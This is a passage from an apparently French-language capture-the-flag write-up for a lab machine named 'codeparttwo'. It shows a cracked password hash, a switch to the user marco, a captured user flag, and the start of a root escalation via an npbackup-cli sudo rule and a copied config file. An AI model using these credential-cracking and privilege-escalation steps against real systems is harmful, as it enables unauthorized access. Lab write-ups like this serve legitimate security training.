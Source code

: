 ```bash
* Keyspace..: 14344384
* Runtime...: 2 secs

649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove   

(remote) app@codeparttwo:/home/app/app/instance$ su marco  
Password:    
marco@codeparttwo:/home/app/app/instance$ cd  
marco@codeparttwo:~$ cat user.txt    
b7de2fae492eb8660bf2601b68929e09  

Une fois le hash décodé on peux compromettre un nouvel user nomé marco.

```

## Privesc 
On trouve un fichier de conf d'un programme qui comme par hasard 
peux être executé en tant que root via sudo
```bash

marco@codeparttwo:~$ cat npbackup.conf    
conf_version: 3.0.1  
audience: public  
repos:  
 default:  
   repo_uri:    
     __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpD  
U+e+E__NPBACKUP__  
   repo_group: default_group  
   backup_opts:  
     paths:  
     - /home/app/app/  
     source_type: folder_list  
     exclude_files_larger_than: 0.0  
   repo_opts:  
     repo_password:    
       __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPB  
ACKUP__  
 SNIP 
marco@codeparttwo:~$ sudo -l  
Matching Defaults entries for marco on codeparttwo:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User marco may run the following commands on codeparttwo:  
   (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli 
marco@codeparttwo:~$ cp npbackup.conf /tmp/rootssh.conf  
```

